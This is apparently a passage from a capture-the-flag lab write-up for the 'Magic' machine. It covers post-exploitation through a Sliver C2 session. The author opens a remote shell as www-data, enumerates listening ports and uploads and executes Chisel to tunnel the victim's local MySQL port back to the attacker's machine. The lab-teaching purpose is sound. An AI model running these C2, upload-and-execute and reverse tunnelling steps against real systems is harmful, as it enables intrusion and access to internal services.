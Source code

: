 Got a Sliver session as www-data.

```
sliver (http-magic) > use f9e9889d

[*] Active session http-magic (f9e9889d-1870-4be0-b997-6acb04ca5044)

sliver (http-magic) > info

        Session ID: f9e9889d-1870-4be0-b997-6acb04ca5044
              Name: http-magic
          Hostname: magic
              UUID: 1456d592-d9a6-4495-ba5b-92bdbdb0cc08
          Username: www-data
```

The password does not belong to the user and `mysql` is not installed (but TCP/3306 is still running).

```
sliver (http-magic) > shell

[*] Started remote shell with pid 3213

www-data@magic:/var/www/Magic/images/uploads$ whoami
www-data

www-data@magic:/var/www/Magic/images/uploads$ su - theseus
Password: 
su: Authentication failure

www-data@magic:/var/www/Magic/images/uploads$ ss -ntplu     
Netid  State    Recv-Q   Send-Q      Local Address:Port      Peer Address:Port      
tcp    LISTEN   0        128               0.0.0.0:22             0.0.0.0:*     
tcp    LISTEN   0        5               127.0.0.1:631            0.0.0.0:*     
tcp    LISTEN   0        80              127.0.0.1:3306           0.0.0.0:*     
... 
  
</images/uploads$ mysql -u theseus -p'<REDACTED>' -h localhost

Command 'mysql' not found, but can be installed with:

apt install mysql-client-core-5.7   
apt install mariadb-client-core-10.1
```

Started a Chisel server and established a local port forwarding to access TCP/3306 from our VM.

```
# start server
sudo chisel server --reverse -p 1234

# local port forwarding
sliver (http-magic) > upload /home/kali/Desktop/tools/chisel_1.9.1_linux_amd64 /tmp/chisel

[*] Wrote file to /tmp/chisel

sliver (http-magic) > execute -o chmod +x /tmp/chisel

sliver (http-magic) > execute -o /tmp/chisel client 10.10.14.16:1234 R:3306:127.0.0.1:3306
```
